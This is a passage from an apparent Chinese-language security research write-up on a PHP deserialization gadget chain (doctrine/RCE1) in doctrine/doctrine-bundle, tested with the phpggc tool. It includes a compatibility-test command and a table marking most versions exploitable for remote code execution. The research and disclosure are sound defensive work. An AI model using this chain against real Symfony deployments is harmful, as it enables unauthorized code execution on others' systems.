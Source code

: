 
最后，对 Controller 链的攻击进行了演示，Symfony 应用程序和 phpggc 在 PHP 8.1.22 中运行，如下：

[![](assets/1698893201-6d334b54d387e0c7e95241eadb4a4508.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20231028001957-abd1c1c2-74e4-1.gif)

### doctrine/doctrine-bundle易受攻击的版本

为了测试 POP 链的效率，使用了 phpggc test-gc-compatibility.py 脚本，POP 链可以在以下 PHP 8 版本上被利用，测试在 PHP 8.1.22 上运行。以下命令可用于列出受影响的版本。

[https://github.com/ambionics/phpggc/blob/master/test-gc-compatibility.py](https://github.com/ambionics/phpggc/blob/master/test-gc-compatibility.py)

```plain
$ python3 test-gc-compatibility.py doctrine/doctrine-bundle doctrine/RCE1
Running on PHP version PHP 8.1.22 (cli) (built: Feb 11 2023 10:43:39) (NTS).
Testing 136 versions for doctrine/doctrine-bundle against 1 gadget chains.

┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━┳━━━━━━━━━━━━━━━┓
┃ doctrine/doctrine-bundle                 ┃ Package ┃ doctrine/RCE1 ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━╇━━━━━━━━━━━━━━━┩
│ 2.11.x-dev                               │   OK    │      OK       │
│ 2.10.x-dev                               │   OK    │      OK       │
│ 2.10.2                                   │   OK    │      OK       │
│ 2.10.1                                   │   OK    │      OK       │
│ 2.10.0                                   │   OK    │      OK       │
│ 2.9.x-dev                                │   OK    │      OK       │
│ 2.9.2                                    │   OK    │      OK       │
[...]
│ 1.12.x-dev                               │   OK    │      OK       │
│ 1.12.13                                  │   OK    │      OK       │
│ 1.12.12                                  │   OK    │      OK       │
│ 1.12.11                                  │   OK    │      OK       │
│ 1.12.10                                  │   OK    │      OK       │
[...]
│ 1.6.x-dev                                │   OK    │      OK       │
│ 1.6.13                                   │   OK    │      OK       │
│ 1.6.12                                   │   OK    │      OK       │
│ 1.6.11                                   │   OK    │      OK       │
[...]
│ v1.0.0                                   │   OK    │      KO       │
│ v1.0.0-RC1                               │   OK    │      KO       │
│ v1.0.0-beta1                             │   KO    │       -       │
│ dev-2.10.x-merge-up-into-2.11.x_IKPBtWeg │   OK    │      OK       │
│ dev-symfony-7                            │   OK    │      OK       │
└──────────────────────────────────────────┴─────────┴───────────────┘
```
